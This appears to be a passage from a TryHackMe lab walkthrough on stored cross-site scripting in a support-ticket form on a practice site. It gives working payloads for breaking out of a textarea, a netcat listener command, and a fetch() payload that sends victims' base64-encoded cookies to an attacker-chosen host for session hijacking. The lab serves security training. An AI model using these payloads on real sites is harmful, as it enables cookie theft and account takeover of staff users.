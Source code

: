 



Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:


</textarea>test


Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.





Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:


 </textarea><script>alert('THM');</script>


Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 


Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.


While using the TryHackMe AttackBox, let's set up a listening server using Netcat:


nc

           
user@machine$ nc -nlvp 9001

        


Now that we've set up the method of receiving the exfiltrated information, let's build the payload.


</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>


Let's breakdown the payload:

The </textarea> tag closes the textarea field. 

The <script>tag opens open an area for us to write JavaScript.

The fetch() command makes an HTTP request.

{URL_OR_IP} is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

?cookie= is the query string that will contain the victim's cookies.

btoa() command base64 encodes the victim's cookies.

document.cookie accesses the victim's cookies for the Acme IT Support Website.
